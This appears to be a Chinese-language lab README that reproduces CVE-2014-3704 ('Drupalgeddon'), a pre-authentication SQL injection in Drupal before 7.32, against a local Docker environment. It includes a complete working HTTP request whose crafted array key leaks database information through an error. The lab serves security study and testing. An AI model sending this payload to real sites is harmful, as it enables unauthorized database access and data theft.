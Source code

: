 # Drupal < 7.32 "Drupalgeddon" SQL注入漏洞（CVE-2014-3704）

Drupal是一个使用PHP编写的免费开源的Web内容管理框架，在GNU通用公共许可证下分发。

在Drupal Core 7.32版本之前的7.x版本中，数据库抽象API中的expandArguments函数没有正确构造预处理语句，这允许远程攻击者通过包含精心构造的键的数组进行SQL注入攻击。

参考链接：

- <https://www.drupal.org/SA-CORE-2014-005>
- <https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-3704>

## 环境搭建

执行如下命令启动一个Drupal 7.31服务器：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8080`将会看到Drupal的安装向导，使用默认配置进行安装。

注意：MySQL数据库名为`drupal`，数据库用户名和密码均为`root`，地址为`mysql`：

![](1.png)

安装完成后，即可访问首页：

![](2.png)

## 漏洞复现

该SQL注入漏洞无需身份认证，可以通过发送以下请求来执行恶意SQL语句：

```
POST /?q=node&destination=node HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 120

pass=lol&form_build_id=&form_id=user_login_block&op=Log+in&name[0 or updatexml(0,concat(0xa,user()),0)%23]=bob&name[0]=a
```

如图所示，SQL语句报错信息中包含了用户数据：

![](3.png)
